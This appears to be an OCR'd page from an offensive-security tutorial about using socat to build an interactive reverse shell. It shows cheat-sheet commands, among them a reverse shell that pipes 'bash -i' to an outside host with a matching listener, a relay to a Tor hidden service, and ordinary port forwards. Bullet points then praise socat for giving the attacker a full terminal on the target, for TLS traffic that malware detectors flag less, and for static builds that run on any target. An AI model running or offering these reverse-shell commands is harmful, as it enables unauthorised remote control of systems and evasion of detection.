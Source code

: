 ```bash
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050

# network (port 8266) to serial bridge (/dev/ttyUSB0 baudrate: 115200)
socat TCP4-LISTEN:8266,fork,reuseaddr /dev/ttyUSB0,raw,crnl,b115200

# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# reverse shell:
socat exec:'bash -i',pty,stderr tcp:remote.butzel.info:3180

# listener for above reverse shell (on remote.butzel.info):
socat file:`tty`,raw,echo=0 tcp-listen:3180
# or: nc -lp 3180

 tldr:socat 
# socat
# Multipurpose relay (SOcket CAT).

# Listen to a port, wait for an incoming connection and transfer data to STDIO:
socat - TCP-LISTEN:8080,fork

# Create a connection to a host and port, transfer data in STDIO to connected host:
socat - TCP4:www.example.com:80

# Forward incoming data of a local port to another host and port:
socat TCP-LISTEN:80,fork TCP4:www.example.com:80
```

It's convenient, but how can these features help us for our uber-duper shell?

- It can allocate a PTY on both remote and attacking side, this means proper signal handling, autocompletion, ctrl^C, sudo interactions, resizing, inline editing (vim, htop, nano, ...)
- It can encrypt with various protocols, including TLS which is less flagged than typical RC4 or AES encryption for malwares
- It can use UNIX sockets, so can easily be scripted and used with crazy bash kung-fu one-liners of D00M (damn I love bash kung-fu..)
- It can be statically compiled and cross compiled, implying it can virtually be used on any kind of remote target
- It's really simple to use, even more with cheat.sh in your toolbox, even moooore if you spend time in the man :)
- Last but not least, it contains the word `cat` in its name like netcat, or ncat, so it's a decent choice. For sure. 
